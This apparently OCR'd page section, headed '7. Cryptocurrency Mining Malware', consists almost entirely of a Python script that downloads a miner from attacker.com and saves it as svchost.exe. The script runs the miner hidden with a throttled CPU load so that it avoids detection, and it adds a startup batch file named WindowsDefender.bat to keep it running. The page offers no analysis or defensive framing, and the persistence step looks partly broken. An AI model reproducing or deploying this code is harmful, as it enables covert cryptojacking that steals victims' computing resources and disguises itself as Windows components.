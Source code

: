 ### 7. Cryptocurrency Mining Malware
```python
#!/usr/bin/env python3
import subprocess
import requests
import tempfile
import os

class CryptoMiner:
    def __init__(self):
        self.miner_url = "http://attacker.com/xmrig.exe"
        self.pool_address = "pool.monero.org:4444"
        self.wallet_address = "attacker_wallet_address"
        
    def download_miner(self):
        try:
            response = requests.get(self.miner_url)
            temp_dir = tempfile.gettempdir()
            miner_path = os.path.join(temp_dir, "svchost.exe")
            
            with open(miner_path, 'wb') as f:
                f.write(response.content)
            
            return miner_path
        except:
            return None
    
    def start_mining(self):
        miner_path = self.download_miner()
        if miner_path:
            # Start mining with low CPU usage to avoid detection
            cmd = [
                miner_path,
                "-o", self.pool_address,
                "-u", self.wallet_address,
                "-t", "2",  # Use 2 threads
                "--max-cpu-usage=25"  # Limit CPU usage
            ]
            
            subprocess.Popen(cmd, creationflags=subprocess.CREATE_NO_WINDOW)
    
    def persistence(self):
        # Add to startup
        startup_folder = os.path.expanduser("~\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup")
        miner_startup = os.path.join(startup_folder, "WindowsDefender.bat")
        
        with open(miner_startup, 'w') as f:
            f.write("@echo off\n")
            f.write("start /min svchost.exe\n")

if __name__ == "__main__":
    miner = CryptoMiner()
    miner.start_mining()
    miner.persistence()
```